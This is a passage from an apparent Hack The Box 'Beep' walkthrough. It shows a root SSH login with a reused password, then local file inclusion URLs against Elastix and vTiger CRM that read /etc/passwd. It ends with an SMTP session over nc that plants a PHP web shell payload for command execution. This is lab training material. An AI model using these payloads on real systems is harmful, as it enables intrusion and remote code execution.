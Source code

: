 Make a guess, I try this password with root's ssh credential.

```
┌──(Hades㉿10.10.14.5)-[2.1:30.7]~/walkthrough/hackthebox/beep
└─$ ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Fri Apr  2 10:27:42 2021 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]#
```

### LFI and Postfix smtpd

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/beep)

After gathering information in the server, I have 2 LFI vulnerabilities:

1. Elastix 2.2.0 - 'graph.php' Local File Inclusion
2. vTiger CRM 5.1.0 - Local File Inclusion

Get the user account in the server.

```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../../../../..//etc/passwd%00&module=Accounts&action
```

```
view-source:https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00&cmd=id
```

I grep only user can execute shell

```
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

To create a backdoor, go first with SMTP service. I access to it and sent a mail contain php backdoor code to user `asterisk`.

```
┌──(Hades㉿10.10.14.5)-[2.1:32.9]~/walkthrough/hackthebox/beep
└─$ nc -nC 10.10.10.7 25
220 beep.localdomain ESMTP Postfix
vrfy asterisk@localhost
252 2.0.0 asterisk@localhost
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "asterisk"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as A3254D92FD
quit
```
